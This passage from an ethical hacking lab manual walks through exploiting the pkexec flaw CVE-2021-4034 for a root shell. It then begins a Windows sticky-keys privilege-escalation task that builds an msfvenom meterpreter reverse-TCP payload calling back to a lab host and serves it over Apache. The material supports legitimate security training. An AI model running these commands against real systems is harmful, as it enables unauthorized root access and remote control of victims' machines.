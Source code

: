 	3. In the terminal window, type mkdir /tmp/pwnkit and press Enter.
	
	4. Now, in the terminal type mv CVE-2021-4034 /tmp/pwnkit/ and press Enter.
	
	5. In the terminal window, type cd /tmp and press Enter to navigate to tmp directory.
	
	6. Type cd pwnkit and press Enter to navigate into pwnkit folder.
	
	7. Type cd CVE-2021-4034/ and press Enter to navigate into CVE-2021-4034 folder.
	
	8. In the CVE-2021-4034 directory, type make and press Enter.
	
	9. Now, in the terminal, type ./cve-2021-4034 and press Enter.
	
	10. A shell will open, in the shell type whoami and press Enter.
	
	11. You can observe that, we have successfully got root privileges in the Parrot Security machine, without entering any credentials.
This vulnerability has already been patched in newer versions of Unix-based operating systems. Here, we are exploiting the vulnerability for the sake of demonstrating how the attackers can search for the latest vulnerabilities in the target operating system using online resources such as Exploit-Db and further exploit them to gain unauthorized access or escalated privileges to the target system.
more...
	12. This concludes the demonstration of how to escalate privileges by exploiting vulnerability in pkexec.
	13. Close all open windows and document all the acquired information.

Task 4: Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys
Sticky keys is a Windows accessibility feature that causes modifier keys to remain active, even after they are released. Sticky keys help users who have difficulty in pressing shortcut key combinations. They can be enabled by pressing Shift key for 5 times. Sticky keys also can be used to obtain unauthenticated, previleged access to the machine.
Here, we are exploiting Sticky keys feature to gain access and to escalate privileges on the target machine.
	1. Click Parrot Security to switch to the Parrot Security machine and launch a Terminal window.
	2. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	3. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	4. Now, type cd and press Enter to jump to the root directory.
	
	5. Type the command msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe and press Enter.
	
	6. In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access permission. So, we will use the same directory or shared folder (share) to share Windows.exe with the victim machine.
To create a new directory to share the Windows.exe file with the target machine and provide the permissions, use the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	7. Copy the payload into the shared folder by typing cp /home/attacker/Desktop/Windows.exe /var/www/html/share/ in the terminal window and press Enter.
	
	8. Start the Apache server by typing service apache2 start and press Enter.
	